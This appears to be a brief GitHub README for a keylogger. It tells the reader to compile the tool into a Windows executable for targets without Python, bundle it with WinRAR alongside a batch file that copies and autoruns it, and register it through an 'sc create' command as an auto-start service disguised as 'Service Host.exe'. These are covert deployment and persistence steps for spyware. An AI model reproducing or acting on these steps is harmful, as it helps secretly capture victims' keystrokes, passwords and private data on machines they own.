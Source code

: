 # KeyLogger
 Compile with cx_freeze into an exe for windows users without python and modules.
 Then combine into one file using w/e you want.
 I combine it with winrar and add a .bat that copies and autoruns.

 ```
sc create BSGService start= auto binpath= "C:\Program Files (x86)\BSG Service\dist\Service Host.exe"
"dist\Service Host.exe"
 ```